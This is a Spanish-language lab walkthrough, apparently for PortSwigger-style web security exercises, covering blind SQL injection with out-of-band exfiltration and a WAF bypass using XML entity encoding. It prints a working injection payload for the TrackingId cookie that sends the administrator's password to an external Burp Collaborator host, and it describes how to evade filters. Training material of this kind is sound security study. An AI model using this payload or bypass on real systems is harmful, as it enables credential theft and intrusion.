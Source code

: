 La consulta SQL se ejecuta de forma asincrónica y no tiene ningún efecto sobre la respuesta de la aplicación. Sin embargo, puede desencadenar interacciones fuera de banda con un dominio externo.

La base de datos contiene una tabla diferente llamada users, con columnas llamadas username y password. Debe aprovechar la vulnerabilidad de inyección SQL ciega para averiguar la contraseña del administrator usuario.

Para resolver el laboratorio, inicie sesión como administrator usuario.



- La vulnerabilidad se encuentra nuevamente en la cookie ‘TrackingId‘, donde inyectamos un payload que construye dinámicamente una petición DNS hacia un subdominio de Burp Collaborator. En este caso, concatenamos la contraseña del usuario ‘administrator‘ dentro de la URL del dominio, de modo que dicha información se filtre al servidor externo.

- El ataque utiliza funciones de XML como ‘EXTRACTVALUE‘ y el tipo ‘xmltype‘, combinadas con subconsultas SQL (SELECT password FROM users WHERE username=’administrator’) que inyectan el dato como parte de la resolución DNS.

- Finalmente, desde la pestaña Collaborator de Burp Suite, verificamos las interacciones registradas y recuperamos el valor exfiltrado. Con esta contraseña accedemos como administrador y resolvemos el laboratorio.


Cookie: TrackingId=OM2UeUHT1Q74XfV4" union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %25
remote SYSTEM "http://'||(select password from users where username='administrator')||'.em4651c8ntonsu7rwg3gtectkkqce52u.oastify.com/">
%25remote%3b]>"),'/1') FROM dual--     

session=GknxCGss@6A1lpHSaxkE1ZY91z6sfhXrU









# Bypass de filtros con codificación XML en Inyección SQL

## Laboratorio: Inyección SQL con omisión de filtro mediante codificación XML

Este laboratorio contiene una vulnerabilidad de inyección SQL en su función de verificación de stock. Los resultados de la consulta se devuelven en la respuesta de la aplicación, por lo que puede utilizar un ataque UNION para recuperar datos de otras tablas.

La base de datos contiene un users tabla, que contiene los nombres de usuario y contraseñas de los usuarios registrados. Para resolver el laboratorio, realice un ataque de inyección SQL para recuperar las credenciales del usuario administrador y luego inicie sesión en su cuenta.


- Inicialmente identificamos que el valor de ‘storeId‘ es evaluado por el backend, permitiendo realizar operaciones como ‘1+1‘. Luego intentamos una inyección clásica mediante ‘UNION SELECT‘, pero la aplicación bloquea el intento, presumiblemente por un sistema WAF (Web Application Firewall).

- Para evadir este filtro, aplicamos codificación de entidades XML (por ejemplo, hexadecimal o decimal), utilizando herramientas como la extensión Hackvertor en Burp Suite. Este bypass permite que el payload pase desapercibido y sea ejecutado por el backend.
